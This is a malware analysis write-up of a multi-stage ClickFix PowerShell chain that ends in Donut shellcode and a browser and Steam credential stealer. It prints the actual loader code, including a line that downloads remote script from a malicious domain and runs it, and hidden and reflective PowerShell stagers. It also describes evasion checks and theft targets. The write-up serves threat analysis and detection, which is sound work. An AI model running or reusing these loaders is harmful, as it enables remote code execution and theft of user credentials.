# Multi-Stage PowerShell Loader & Donut Shellcode Analysis

- **Author:** Jeel Nariya
- **Published:** 2026-05-08

# Overview

- This malware uses multiple PowerShell stages, XOR/Base64 obfuscation, and Donut shellcode to execute payloads completely in memory while avoiding static detection.

# Infection Chain



# Stage Analysis

## Stage0 — Initial Payload

### URL

```text
https[:]//6fd64f52[.]syscheck-loadverifyov3[.]pages[.]dev/?v=moa4x7jh&s=1&r=68h7
```

- After opening this site it will automatically paste some Powershell malicious code into clipboard, this is classic social engineering technique named **ClickFix**.

### Behavior



- This is something useful code and it looks malicious because it doing XOR decryption with a key,
- Here is the cleaned code,

```powershell
$key = "xwT2sd46cGELLKZs4fEU"
$data = [Convert]::FromBase64String("clMRQAELRncAMywjIhsoFlIDNzAWFDESTkQTZQorICI4JyMwWwgxPBYCMRV5QHdfFxEmfQI9CCRnFmVoWFU8RgcURwxMaCQ5OCM/C10IIjkXFjAcABRVVQZoJyI1PnQBFmwxJwFXLzhTRBQWRzQmPiU7LlMJRm0bHQB5fREOUVUXZwspOGUNFlYlKTwdGSAbXSBbQQ0rKi0oGC4BXQgifVw0PUYlBwV4FRUSHzxiUFMURmU8HQ90FgAHRl8TM08xbCg7B1cOZS4FfQ==")

$decoded = for ($i=0; $i -lt $data.Length; $i++) {
    $data[$i] -bxor [byte][char]$key[$i % $key.Length]
}

$script = -join ([char[]]$decoded)
Invoke-Expression $script
```

- After decryption of this strings statically in cyberchef, it looks like this,



```powershell
$ErrorActionPreference = 'SilentlyContinue'
$CitVc1NvRWSp = "https://authexingload.space/bnyu.r"
try {
    $script = (New-Object Net.WebClient).DownloadString($CitVc1NvRWSp)
    iex $script
} catch {}

Invoke-Expression $script
```
### Notes

- This stage0 try to decrypt some base64 and execute it, and it spits out the stage1 Powershell. 

## Stage1 — PowerShell Loader

### Behavior



- This script will download another stage from given URL,

```
https[:]//authexingload[.]space/bnyu[.]r
```

## Stage2 — PowerShell Loader

### Behavior

- This is another powershell stager which has large base64 blog,

```powershell
$ErrorActionPreference = 'SilentlyContinue'
$pay = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('CgAkAEUAcgByAG8Acg.............pACkAIAB9AAoAfQAKAA=='))
if ([IntPtr]::Size -eq 8) {
    $p86 = "$env:SystemRoot\SysWOW64\WindowsPowerShell\v1.0\powershell.exe"
    if (Test-Path $p86) {
        $si = New-Object System.Diagnostics.ProcessStartInfo
        $si.FileName = $p86
        $si.Arguments = "-NoProfile -WindowStyle Hidden -Command -"
        $si.UseShellExecute = $false
        $si.CreateNoWindow = $true
        $si.RedirectStandardInput = $true
        $proc = [System.Diagnostics.Process]::Start($si)
        $proc.StandardInput.WriteLine($pay)
        $proc.StandardInput.Close()
        exit
    }
}
IEX $pay
```


### Notes

| Technique         | Purpose                         |
| -- | - |
| Base64 encoding   | Obfuscation                     |
| Hidden PowerShell | Stealth                         |
| `IEX`             | Fileless execution              |
| 32-bit PowerShell | Bypass defenses / compatibility |
| STDIN execution   | Avoid command-line logging      |
| NoProfile         | Cleaner environment             |

## Stage3 — Downloader

### Behavior

- Now after decoding the base64 blob it spits out something like this,



```powershell
$ErrorActionPreference = 'SilentlyContinue'
Add-Type -AssemblyName System.Windows.Forms
$d = [Convert]::FromBase64String('QUD5izFgfnE3l9LtS...eLxX1piy68BgqtqGVtN')
$k = [Convert]::FromBase64String('DBppizJgfnEzl9LttCPeWFxuBA33gBKuY4Hkq2oZW00=')
$p = New-Object byte[] $d.Length
for ($i=0;$i -lt $d.Length;$i++) { $p[$i] = $d[$i] -bxor $k[$i % $k.Length] }
$a = [Reflection.Assembly]::Load($p)
$m = $a.EntryPoint
if ($m) {
    [Windows.Forms.Application]::EnableVisualStyles()
    $pa = $m.GetParameters()
    if ($pa.Length -eq 0) { $m.Invoke($null, $null) }
    else { $m.Invoke($null, @(,[string[]]@())) }
}
```


### Notes

| Technique                | Purpose            |
| ------------------------ | ------------------ |
| Base64                   | Obfuscation        |
| XOR encryption           | Hide payload       |
| Reflection.Assembly.Load | Fileless execution |
| In-memory PE loading     | Evasion            |
| EntryPoint invocation    | Execute payload    |
| No disk artifact         | Avoid AV scanning  |

## Stage4 - .NET Loader

### Behavior

- Now after XOE decrypting the base64 blob with given key, it gives one executable binary,



- This is `.Net Compiled` 32 bit Binary.

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[/]
└─$ file stage4.exe

stage4.exe.defused: PE32 executable for MS Windows 4.00 (GUI), Intel i386 Mono/.Net assembly, 3 sections
```

### Initial static analysis

- I will perform some initial static analysis to get some context before diving into `dnspy`,
- First and foremost thing is typical `virustotal`, 
	- I found almost 48 matches so this is not something new,
	- Although previous stagers have no signatures on it. 



- I will start with `pestudio`,



- It is showing some details which are,
	- Compile time → Tue Apr 21 00:27:49 2026 (UTC)
	- File Size, Version, description etc..



- Import details,



- This is output of detect it easy specifying that it is,



- `PE32` → 32-bit Windows executable
- `I386` → x86 architecture
- `GUI` → no console window, graphical app type
- `MSIL/C#` → .NET executable written in C#
- `.NET CLR v4.0.30319` → requires .NET Framework 4.x runtime
- `Microsoft Linker 11.0` → likely compiled using Visual Studio 2012 toolchain
- `Little Endian (LE)` → standard x86 byte order
- `Authenticode / PKCS#7` → contains digital signature structure/certificate blob
- `Overlay present` → extra data appended after PE end
- `Overlay Size 0x1d00` → ~7 KB extra data appended
- Common malware indicators:
    - reflective .NET loading compatible
    - hidden GUI execution
    - possible packed/obfuscated payload
    - possible hidden config/payload in overlay
- This is the entropy information,



- There is some data in overlay which looks random,
	- it might be shellcode, packed data etc..



### Code Analysis

- Now i will open this stag4 sample into `dnspy`,
- It has these many function including some junk code,
- We will start with main,



- This is the Main code which is a Shellcode Loader,
	- Behavior:
		1. decrypt embedded shellcode
		2. allocate executable memory
		3. inject shellcode into memory
		4. execute via native thread
		5. optionally perform decoy GUI actions



- It is also doing some Masquerading things like processing junk code to confuse the analyst, 



- It is a large byte array containing AES encrypted Shellcode,



| Behavior                          | Why Suspicious      |
| --------------------------------- | ------------------- |
| Shellcode decryption              | Hidden payload      |
| RWX memory allocation             | Code injection      |
| NtAllocateVirtualMemory           | Native API abuse    |
| NtCreateThreadEx                  | Shellcode execution |
| Marshal.Copy to executable memory | Injection pattern   |
| Hidden GUI                        | Stealth             |
| Empty catch blocks                | Hide failures       |
| Fake Microsoft naming             | Masquerading        |
- DecryptShellcode Function analysis,
- This function:
	1. Takes encrypted shellcode
	2. Decodes AES key + IV
	3. AES-decrypts payload in memory
	4. Returns executable shellcode bytes



### Dynamic Analysis to get Extract Shellcode



- So to carve the shellcode, i put breakpoint right after decryption and it is written in array buffer so i carve it into a file called `stage5_shellcode.bin`,



### Notes

- This is summarized working flow, 

## Stage5 - Donut Shellcode

- Doing some simple analysis to get some information and found that it is Donut shellcode,
	- https://github.com/thewover/donut



- Since it is open source so we see the main capabilities it have,
	- Executes payloads completely from memory (fileless execution)
	- Supports EXE, DLL, .NET assemblies, VBScript, and JScript
	- Uses dynamic API resolution and API hashing
	- Walks the PEB to find loaded DLLs instead of normal imports
	- Can encrypt/compress embedded payloads
	- Supports AMSI/WLDP bypass techniques
	- Hosts the .NET CLR in memory for reflective .NET execution
	- Works well for process injection and reflective loading

### Shellcode Analysis

- Now after knowing that this is know in public so maybe there will some decrypted available which can be useful,
- This is very useful in that process,
	- https://github.com/volexity/donut-decryptor
- Installation commands,

```bash
cd /path/to/donut-decryptor
python -m pip install .
```

- After installation we can decrypt the shellcode,

```bash
donut-decryptor --outdir shellcode_dec/ --debug stage5_shellcode.bin
```



- We get this 2 files,

```bash
└─$ file *

inst_stage5_shellcode.bin: JSON text data
mod_stage5_shellcode.bin:  PE32 executable for MS Windows 6.00 (GUI), Intel i386, 5 sections
```

- Here is json file content,
- It shows the configuration of shellcode
	- **A Donut-generated shellcode loader that contains an embedded DLL payload directly inside it, using normal Donut obfuscation but no compression.**

```json
{
  "File": "stage5_shellcode.bin",
  "Instance Type": "DONUT_INSTANCE_EMBED",
  "Entropy Type": "DONUT_ENTROPY_DEFAULT",
  "Decoy Module": "",
  "Module Type": "DONUT_MODULE_DLL",
  "Compression Type": "DONUT_COMPRESS_NONE"
}
```

- But it decrypts the ASMx86 Compiled file,

```bash
┌──(b14cky㉿DESKTOP-VRSQRAJ)-[~/]
└─$ diec stage6_carvedfromshellcode.bin -u --verbose

[HEUR/About] Generic Heuristic Analysis by DosX (@DosX_dev)
[HEUR] Scanning has begun!
[HEUR] Scanning to programming language has started!
[HEUR] Scan completed.
PE32
    Operation system: Windows(Vista)[I386, 32-bit, GUI]
    Linker: Microsoft Linker(14.36.35728)
    Compiler: MASM(14.36.35728)
    Language: ASMx86
```

## Stage6 - ASMx86 Analysis

### Initial Static Analysis

- Detect it Easy Shows high entropy in 2 sections for packed,
	- `.text` and `.reloc`



- Some static analysis using PEStudio again,
	- Compile Date: Tue Jul 16 11:09:57 2024 (UTC)





- It contains the rich header means it is build using Visual Studio,



- Some malicious APIs and its actions,




### Initial Dynamic Analysis

- I have used these 3 pair of tools,
	- ProcMon: For Monitoring the Process
	- RegShot: See the Diff or Registery
	- Fakenet: To see network communication
	- Process Hacker: Process Information

- After executing malware as admin it immediately exist because as we make assumption that it is doing process injection so that's,



- After executing the sample, i found that this is trying to communicate with server,





```
192[.]0[.]2[.]123
```

- Now you might think it has Anti-VM artifacts so why does it is executed so you will found that answer next section,
- It creates bunch of DLLs in same directory and removed it later,





- So now lets see the network logs in Wireshark,
- As mentioned, it is using encrypted traffic because it exfiltrate data on HTTPS.





- But in the `fakenet` tab it is visible that where does request does,



```
https[:]//tq[.]trxzidan[.]icu
https[:]//telegra[.]ph/Parameter-04-03
```
### Code Analysis

- This is the whole working flow of this sample,


- Let me walk thought each one by one,
- Start with `start` or `entrypoint` of the function,


#### Anti-Analysis Checks
##### Environment Checks





- Here is Description of this API,
	- [GetVersionExA function (sysinfoapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-getversionexa)



##### Anti-Debug Check





- It is checking the PEB(Process Environment Block) which contains the `BeingDebugged` Flag at offset `0x02`,
- Second one is `NtGlobalFlag` at offset `0x68` which is by default 0 but if debugger attacked then it is non zero.  
- More on this, https://anti-debug.checkpoint.com/techniques/debug-flags.html#using-win32-api-ntqueryinformationprocess-processdebugflags
- Understanding The PEB for Reverse Engineers (OALabs 💖): https://www.youtube.com/watch?v=uyisPPTupmA
- Digging into Windows PEB: https://mohamed-fakroud.gitbook.io/red-teamings-dojo/windows-internals/peb
- Diving Into PEB Walk: https://fareedfauzi.github.io/2024/07/13/PEB-Walk.html

```cpp
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  PVOID                         Reserved4[3];
  PVOID                         AtlThunkSListPtr;
  PVOID                         Reserved5;
  ULONG                         Reserved6;
  PVOID                         Reserved7;
  ULONG                         Reserved8;
  ULONG                         AtlThunkSListPtr32;
  PVOID                         Reserved9[45];
  BYTE                          Reserved10[96];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved11[128];
  PVOID                         Reserved12[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

- Now if PEB walk is there so certainly there will be API resolution so we will explore it,



- Another Anti-Debug technique is **WOW64 Transition**,
- It’s an indirect call into WOW64’s internal dispatcher
- It’s a **WOW64 internal dispatcher stub that XOR-decodes a function pointer and calls a hidden system transition routine via `FS:[0xC0]`, commonly used for indirect execution and evasion in malware loaders.**
- And i checked at runtime in debugger and found that after this function call it raise some exception and program exits.



##### Anti-EDR Check

- This is a Anti-EDR technique in which it is checking where these 2 drivers exits or not, if exit then it will exit,
- `C:\\Windows\\System32\\drivers\\klhk.sys`
- `C:\\Windows\\System32\\drivers\\klif.sys`





##### Anti-VM / Sandbox Check

- Anubis / Agent-based sandbox
- Common sandbox agent naming (ANY.RUN + generic analysis agents)

```
"agent.exe"  
"arunagent"
```




- ANY.RUN sandbox
- Online interactive malware analysis sandbox


- QEMU virtual machine
- QEMU Guest Agent (very strong VM indicator)

```
"qemu-ga.exe"
```


- VirtualBox
- VirtualBox user-mode tray process

```
"vboxtray"
```


- So the full detection list is:
- Sandboxes / Analysis environments
	- ANY.RUN sandbox (`anyrun`)
	- Analysis agent (`agent.exe`)
	- Runtime sandbox agent (`arunagent`)
-  Virtualization platforms
	- QEMU VM (`qemu-ga.exe`)
	- VirtualBox (`vboxtray`)


#### Runtime API Resolution


- So now the upper value which is being pushed to stack, `0xFCB67412`
- is our hash so i tried the `hashdb` to resolve it but i failed so made my own script using Claude to resolve it,
- This is the working diagram of hashing algorithm,


- Here is my script,
- It will first parse all the important DLLs and its APIs and make a hash table of it, then we can simply match the target hash and get the API,
- It will load the hashes.txt file which has all hashes,

```py
#!/usr/bin/env python3

# ============================================================
# Malware API Hash Resolver
# ============================================================
#
# Usage:
#   python3 resolve_hashes.py hashes.txt
#
# hashes.txt:
#   0xFCB67412
#   0x12345678
#
# Environment:
#   WSL + Windows DLLs from:
#       /mnt/c/Windows/System32
#
# ============================================================

import os
import sys
import pefile

SYSTEM32 = "/mnt/c/Windows/System32"

# ------------------------------------------------------------
# DLLs to parse
# ------------------------------------------------------------

COMMON_DLLS = [
    "kernel32.dll",
    "kernelbase.dll",
    "ntdll.dll",
    "advapi32.dll",
    "user32.dll",
    "gdi32.dll",
    "ws2_32.dll",
    "wininet.dll",
    "urlmon.dll",
    "shell32.dll",
    "ole32.dll",
    "combase.dll",
    "crypt32.dll",
    "iphlpapi.dll",
    "shlwapi.dll",
    "psapi.dll",
    "sechost.dll",
    "bcrypt.dll",
    "rpcrt4.dll",
    "winhttp.dll",
    "setupapi.dll",
    "netapi32.dll",
    "dnsapi.dll",
    "wtsapi32.dll",
    "oleaut32.dll",
    "userenv.dll",
    "dbghelp.dll",
    "comdlg32.dll",
    "uxtheme.dll",
]
# ------------------------------------------------------------
# ROTL32
# ------------------------------------------------------------

def rol32(value, bits):

    bits &= 31

    if bits == 0:
        return value & 0xFFFFFFFF

    return ((value << bits) | (value >> (32 - bits))) & 0xFFFFFFFF


# ------------------------------------------------------------
# Malware hash algorithm
# ------------------------------------------------------------

def mw_hash(s):

    s = s.encode(errors="ignore")

    length = len(s)

    if length:

        edx = 0x75A887A5

        for i, c in enumerate(s):

            # lowercase conversion
            if 0x41 <= c <= 0x5A:
                c += 0x20

            ebx = ((c << 16) | c) & 0xFFFFFFFF

            eax = rol32(0x86679E7F, i)
            eax ^= ebx

            eax = (eax * 0xCEDEB46B) & 0xFFFFFFFF
            eax = rol32(eax, 8)

            eax = (eax * 0x9228D003) & 0xFFFFFFFF

            eax ^= edx

            eax = rol32(eax, 16)

            eax = (eax * 0xC10609A7) & 0xFFFFFFFF

            eax = (eax + 0x86679E7F) & 0xFFFFFFFF

            edx = eax ^ (eax >> 15)

    else:
        edx = 0x75A887A5

    edx ^= length

    eax = edx ^ (edx >> 16)
    eax = (eax * 0xC0A4F1EB) & 0xFFFFFFFF

    ecx = eax ^ (eax >> 13)

    eax = (ecx * 0x8DAA4A67) & 0xFFFFFFFF

    ecx = eax ^ (eax >> 16)

    ecx = (ecx * 0xCEDEB46B) & 0xFFFFFFFF

    eax = ecx ^ (ecx >> 15)

    return eax & 0xFFFFFFFF


# ------------------------------------------------------------
# Build export database
# ------------------------------------------------------------

def build_db():

    db = {}

    print("[*] Parsing DLL exports...\n")

    for dll in COMMON_DLLS:

        dll_path = os.path.join(SYSTEM32, dll)

        if not os.path.exists(dll_path):
            print(f"[-] Missing: {dll}")
            continue

        print(f"[+] {dll}")

        try:

            pe = pefile.PE(dll_path)

            if not hasattr(pe, "DIRECTORY_ENTRY_EXPORT"):
                continue

            for exp in pe.DIRECTORY_ENTRY_EXPORT.symbols:

                if not exp.name:
                    continue

                try:
                    api = exp.name.decode(errors="ignore")
                except:
                    continue

                h = mw_hash(api)

                if h not in db:
                    db[h] = []

                db[h].append(f"{dll}!{api}")

        except Exception as e:

            print(f"    ERROR: {e}")

    return db


# ------------------------------------------------------------
# Load hashes from file
# ------------------------------------------------------------

def load_hashes(path):

    hashes = []

    with open(path, "r") as f:

        for line in f:

            line = line.strip()

            if not line:
                continue

            try:
                hashes.append(int(line, 16))

            except:
                print(f"[-] Invalid hash: {line}")

    return hashes


# ------------------------------------------------------------
# Main
# ------------------------------------------------------------

def main():

    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} hashes.txt")
        return

    hashes_file = sys.argv[1]

    hashes = load_hashes(hashes_file)

    print(f"[+] Loaded {len(hashes)} hashes\n")

    db = build_db()

    print("\n================ RESULTS ================\n")

    found = 0

    for h in hashes:

        print(f"0x{h:08X}")

        if h in db:

            found += 1

            for api in db[h]:
                print(f"    -> {api}")

        else:
            print("    -> NOT FOUND")

        print()

    print("=========================================")
    print(f"[+] Resolved: {found}/{len(hashes)}")
    print("=========================================")


if __name__ == "__main__":
    main()
```

- But first we need to get all the hashes so for that i used IDAPython scripting to get all the hashes with simple logic, which is that copy the `upper 3rd argument` of `call mw_api_resolver` and it should be `push <hex value>`,
- Here is script which will pull all the hashed which are fits in this pattern,

```python
import idautils, idaapi, idc, os

TARGET  = "mw_api_resolver"
OUTFILE = os.path.join(os.path.dirname(idaapi.get_input_file_path()), "hashes.txt")

def is_push_imm(ea):
    return idc.print_insn_mnem(ea).lower() == "push" and \
           idc.get_operand_type(ea, 0) == idaapi.o_imm

def find_hash(call_ea):
    ea, pushes = idc.prev_head(call_ea), 0
    for _ in range(12):
        if ea == idc.BADADDR: break
        if idc.print_insn_mnem(ea).lower() == "push":
            pushes += 1
            if pushes == 2:
                return (idc.get_operand_value(ea, 0) & 0xFFFFFFFF) if is_push_imm(ea) else None
        ea = idc.prev_head(ea)
    return None

target_ea = idc.get_name_ea_simple(TARGET)
if target_ea == idc.BADADDR:
    print(f"[-] '{TARGET}' not found — check label name")
else:
    hits, misses = [], []
    for xref in idautils.CodeRefsTo(target_ea, False):
        h = find_hash(xref)
        (hits if h else misses).append((xref, h))

    print(f"\n{'─'*45}")
    for ea, h in hits:
        print(f"  0x{ea:08X}  →  0x{h:08X}")
    print(f"{'─'*45}")
    print(f"  Resolved : {len(hits)}   |   Skipped : {len(misses)}")
    print(f"{'─'*45}\n")

    if hits:
        with open(OUTFILE, "w") as f:
            f.writelines(f"0x{h:08X}\n" for _, h in hits)
        print(f"[+] Saved → {OUTFILE}")
```


- After some cleaning, It extracted almost `94/114` APIs which is not that good, i know but this is more simpler way to do this,
##### Anti-Debug / Anti-Sandbox / Sleep Logic

| API               | DLL                   | Why malware uses it            | Malicious purpose                                                                           |
| ----------------- | --------------------- | ------------------------------ | ------------------------------------------------------------------------------------------- |
| `GetTickCount`    | kernel32 / kernelbase | Retrieves system uptime in ms  | Used for **timing checks**, delays, and anti-debug (detect stepping / sandbox acceleration) |
| `IsWindowVisible` | user32.dll            | Checks window visibility state | Detects **user interaction vs hidden execution (sandbox UI artifacts)**                     |

##### Process Injection / Execution Control

- As i said in PEStudio Stage that it has process injection and it is proved here,

| API                                 | DLL                 | Why malware uses it         | Malicious purpose                                                              |
| ----------------------------------- | ------------------- | --------------------------- | ------------------------------------------------------------------------------ |
| `CreateProcessA/W`                  | kernel32/kernelbase | Creates new processes       | Used for **payload execution, LOLBins chaining, or injection target creation** |
| `NtSetInformationThread`            | ntdll               | Modifies thread behavior    | Used for **hiding threads (ThreadHideFromDebugger)**                           |
| `NtQueryInformationProcess`         | ntdll               | Retrieves process metadata  | Used for **debugger detection / process enumeration stealth checks**           |
| `NtQueueApcThread`                  | ntdll               | Queues async procedure call | Classic **APC injection technique**                                            |
| `RtlCreateUserThread`               | ntdll               | Creates remote thread       | Used in **process injection / reflective loaders**                             |
| `InitializeProcThreadAttributeList` | kernel32            | Thread attribute setup      | Used for **PPID spoofing / stealth process creation**                          |
| `UpdateProcThreadAttribute`         | kernel32            | Modifies attributes         | Used for **parent process spoofing / injection stealth**                       |

##### DLL Loading / Dynamic Resolution

| API          | DLL   | Why malware uses it  | Malicious purpose                                  |
| ------------ | ----- | -------------------- | -------------------------------------------------- |
| `LdrLoadDll` | ntdll | Low-level DLL loader | Used for **manual module loading, hiding imports** |

##### Crypto / Credential Access

| API                  | DLL         | Why malware uses it | Malicious purpose                                                 |
| -------------------- | ----------- | ------------------- | ----------------------------------------------------------------- |
| `CryptUnprotectData` | crypt32.dll | DPAPI decryption    | Used to steal **saved browser passwords / cookies / credentials** |

##### System Information / Fingerprinting


| API                        | DLL          | Why malware uses it    | Malicious purpose                                       |
| -------------------------- | ------------ | ---------------------- | ------------------------------------------------------- |
| `GetSystemMetrics`         | user32.dll   | System UI properties   | Detects **VM/sandbox display configs**                  |
| `EnumDisplayDevicesA`      | user32.dll   | Display enumeration    | VM detection (virtual GPU / fake monitor detection)     |
| `GetSystemWow64DirectoryA` | kernel32     | Checks OS architecture | Detects **32/64-bit environment**                       |
| `GetVolumeInformationW`    | kernel32     | Disk serial / FS info  | Used for **machine fingerprinting**                     |
| `GetAdaptersAddresses`     | iphlpapi.dll | Network adapter info   | Used for **network fingerprinting / sandbox detection** |
| `LCIDToLocaleName`         | kernel32     | Locale detection       | Used for **geolocation / VM region detection**          |

##### Memory Management / Obfuscation Support


| API                        | DLL      | Why malware uses it | Malicious purpose                           |
| -------------------------- | -------- | ------------------- | ------------------------------------------- |
| `GlobalAlloc / GlobalFree` | kernel32 | Heap allocation     | Used in **payload staging / unpacking**     |
| `GlobalLock / Unlock`      | kernel32 | Memory locking      | Used for **staged shellcode handling**      |
| `GlobalSize`               | kernel32 | Memory size check   | Used in **buffer manipulation**             |
| `LocalFree`                | kernel32 | Memory cleanup      | Used in **anti-analysis cleanup**           |
| `WriteFile`                | kernel32 | File I/O            | Used for **dropping payloads or pipes**     |
| `CreatePipe`               | kernel32 | Anonymous pipes     | Used for **process chaining / C2 staging**  |
| `SetHandleInformation`     | kernel32 | Handle control      | Used for **anti-inheritance / stealth IPC** |

##### Screen / Keylogging / Surveillance

| API                       | DLL    | Why malware uses it    | Malicious purpose                             |
| ------------------------- | ------ | ---------------------- | --------------------------------------------- |
| `GetDC`                   | user32 | Device context capture | Used for **screen capture**                   |
| `ReleaseDC`               | user32 | Release DC             | cleanup for capture routines                  |
| `BitBlt`                  | gdi32  | Screen copy            | Classic **screen scraping / spyware capture** |
| `GetDIBits`               | gdi32  | Extract bitmap pixels  | Used for **image extraction**                 |
| `CreateCompatibleDC`      | gdi32  | Offscreen drawing      | Used in **screenshot pipelines**              |
| `CreateCompatibleBitmap`  | gdi32  | Bitmap buffer          | Screen capture buffer creation                |
| `SelectObject`            | gdi32  | GDI object selection   | Used in **image manipulation**                |
| `DeleteDC / DeleteObject` | gdi32  | Cleanup                | Anti-analysis cleanup                         |
| `GdiFlush`                | gdi32  | Flush GDI calls        | Ensures capture completion                    |
| `GetDesktopWindow`        | user32 | Desktop handle         | Base for **full screen capture**              |

##### Registry / Persistence / System Query

| API                | DLL      | Why malware uses it   | Malicious purpose                       |
| ------------------ | -------- | --------------------- | --------------------------------------- |
| `RegOpenKeyExA`    | advapi32 | Open registry key     | Used for **persistence / startup keys** |
| `RegQueryValueExA` | advapi32 | Read registry values  | Used for **system reconnaissance**      |
| `RegCloseKey`      | advapi32 | Close registry handle | cleanup                                 |

##### Networking / C2 Communication

| API            | DLL    | Why malware uses it | Malicious purpose         |
| -------------- | ------ | ------------------- | ------------------------- |
| `WSAStartup`   | ws2_32 | Init sockets        | Initializes network stack |
| `WSACleanup`   | ws2_32 | Cleanup sockets     | network teardown          |
| `getaddrinfo`  | ws2_32 | DNS resolution      | C2 domain resolution      |
| `freeaddrinfo` | ws2_32 | Free DNS results    | memory cleanup            |

##### COM / GUID / System Identity


| API                | DLL           | Why malware uses it | Malicious purpose                             |
| ------------------ | ------------- | ------------------- | --------------------------------------------- |
| `CoInitializeEx`   | ole32/combase | Init COM            | Required for advanced Windows APIs            |
| `CoUninitialize`   | ole32/combase | Cleanup COM         | teardown                                      |
| `CoCreateInstance` | ole32/combase | Create COM objects  | Used for **system interaction stealth**       |
| `CoCreateGuid`     | ole32/combase | Generate GUID       | Used for **unique bot IDs / persistence IDs** |


#### Config Bootstrap


- It is staging a powershell command to download next stage payload from there,
- but currently it is down,

```
https[:]//telegra[.]ph/Parameters-04-03
```


#### C2 Communication


- At runtime i found that this function will resolve, `getadressinfo` and resolve domain name to ip address,


- This is the function where whole HTTP header will build and request made to C2,


- Now at runtime i found the actual C2 domain,

```
tq[.]trxzidanp[.]icu
```


- It also doing some  low-level network activity designed to bypass traditional security monitoring. 


- The `AfdOpenPacket` family of functions interacts directly with the **Ancillary Function Driver (AFD.sys)**, which is the kernel-mode driver responsible for Windows Sockets (Winsock) and TCP/IP traffic.
- **Direct TCP Socket Creation:** Advanced malware can use `AfdOpenPacket` (often accessed via `NtCreateFile` on `\\Device\\Afd`) to craft raw TCP sockets without relying on standard Windows APIs like `ws2_32.dll`.
- **Bypassing Security Monitoring:** By interacting directly with `AFD.sys` in the kernel, malware can evade security solutions that hook higher-level Winsock APIs, allowing it to send or receive data silently. 
#### Browser and Other Data Theft

- Now for these module i found so many functionalities so listed some important only,

##### Browser Credential


- This is structure of function, it is making json object as shown and exfiltrate it.

```json
{
   "n": "Chrome",
   "p": "Google\\Chrome\\User Data",
   "pn": "Default",
   "t": 1
 }
// Extracting Data From 
"C:\\Users\\<USER>\\AppData\\Local\\Google\\Chrome\\User Data"
// such as 
"\\Local State, encrypted_key, profiles_order"
```

##### Browser Cookies

- It doing these for both, `Firefox` and `Chrome`,


##### Stealing Firefox Profiles and Extension Information


##### Stealing Steam Cache Data


- You see many “key-like” strings being constructed:
	- `"users"`
	- `"AccountName"`
	- `"Software"`
	- `"Valve"`
	- `"Steam"`
	- `"Connect"`
	- `"Cache"`
- System + user environment harvesting: (`HKCU\Software\Valve\Steam`)
	- user accounts
	- installed software
	- Steam / Valve gaming data
	- registry keys under Software hive
	- cache / session data
- It stills files such as,
	- Steam\config\loginusers.vdf
	- Steam\config\config.vdf  
	- Steam\config\steamappdata.vdf  
	- Steam\config\steamapps.vdf
	- Steam\config\ssfn*
	- Steam\config\htmlcache\  
	- Steam\userdata\ etc.


#### Data Exfiltration

- it is doing `json escaping` to transport all the stolen json data to C2, 


# Threat Intelligence

- AnyRun Report : https://any.run/report/9d0ce7a84e62e3458b82d682c7c3f97d095cb2fba8caa0263ee8929994990254/311c6448-7c0a-461b-83ea-e13360d1383f


- Hybrid Analysis Report: https://hybrid-analysis.com/sample/9d0ce7a84e62e3458b82d682c7c3f97d095cb2fba8caa0263ee8929994990254/69e8bf822283d37f6b027207


- VirusTotal Give 4 hits for domain,
	- https://www.virustotal.com/gui/domain/tq.trxzidan.icu


- For Shellcode it gives 20 hits,
	- https://www.virustotal.com/gui/file/7e3e622c9762b8ccdf813c0b288f677f1b4055e31389440a9b692638555a5153


- For .NET Sample it gives 48 hits,
	- https://www.virustotal.com/gui/file/c1e8ea0ebbe41a5714caca4fc85046de84dd82553379c16b7f83b0c7fc8ce20a


# IOCs

## URLs

```text
https[:]//6fd64f52[.]syscheck-loadverifyov3[.]pages[.]dev/
https[:]//authexingload[.]space/bnyu[.]r
https[:]//telegra[.]ph/Parameter-04-03
https[:]//tq[.]trxzidan[.]icu
https[:]//192[.]0[.]2[.]123
```

## Payloads

| Stages                         | Type      | Hash                                                             |
| ------------------------------ | --------- | ---------------------------------------------------------------- |
| stage0.ps1                     | Pwsh      | 2e2490b755819d71092a71961d4bfaff5cf3f69fd00199e38759370806d7f78b |
| stage1.ps1                     | Pwsh      | 986c84f6345e6b40f5ece22c961a7fdb9356733c2ca0b8a22970c7c18ee1ed4e |
| stage2.ps1                     | Pwsh      | 9d0ce7a84e62e3458b82d682c7c3f97d095cb2fba8caa0263ee8929994990254 |
| stage3.ps1                     | Pwsh      | beef326622ceb85d37697b965c55290f04c0c6088016b45ba9e17026e36d1fe3 |
| stage4.exe                     | .NET      | c1e8ea0ebbe41a5714caca4fc85046de84dd82553379c16b7f83b0c7fc8ce20a |
| stage5_shellcode.bin           | Shellcode | 7e3e622c9762b8ccdf813c0b288f677f1b4055e31389440a9b692638555a5153 |
| stage6_carvedfromshellcode.exe | ASMx86    | 25d0ad1cc25b94cb4e01ece63b9de726212ed4172f284b12946c5c5b6c732f90 |

# MITRE ATT&CK Mapping

| Tactic                 | Technique ID | Technique Name                                                          | Where in your chain                                       | Evidence (from reports + behavior)                       |
| ---------------------- | ------------ | ----------------------------------------------------------------------- | --------------------------------------------------------- | -------------------------------------------------------- |
| Initial Access         | T1566.002    | Phishing: Spearphishing Link                                            | Stage0                                                    | Clipboard clickfix PowerShell URL lure (`pages.dev`)     |
| Execution              | T1059.001    | PowerShell                                                              | Stage0–Stage4                                             | Multi-stage PowerShell loaders across all initial stages |
| Execution              | T1204.001    | User Execution: Malicious Link                                          | Stage0                                                    | User triggered clipboard execution                       |
| Defense Evasion        | T1027        | Obfuscated/Encrypted Files or Info                                      | Stage1–Stage4                                             | XOR + Base64 + AES-CBC encrypted payloads                |
| Defense Evasion        | T1140        | Deobfuscate/Decode Files or Information                                 | Stage1–Stage5                                             | Repeated decode → next stage execution chain             |
| Defense Evasion        | T1027.002    | Software Packing                                                        | Stage5                                                    | .NET loader with embedded encrypted shellcode            |
| Execution              | T1106        | Native API Execution                                                    | Stage5                                                    | .NET runtime executing shellcode manually                |
| Execution              | T1620        | Reflective Code Loading                                                 | Stage5                                                    | Runtime shellcode injection in memory                    |
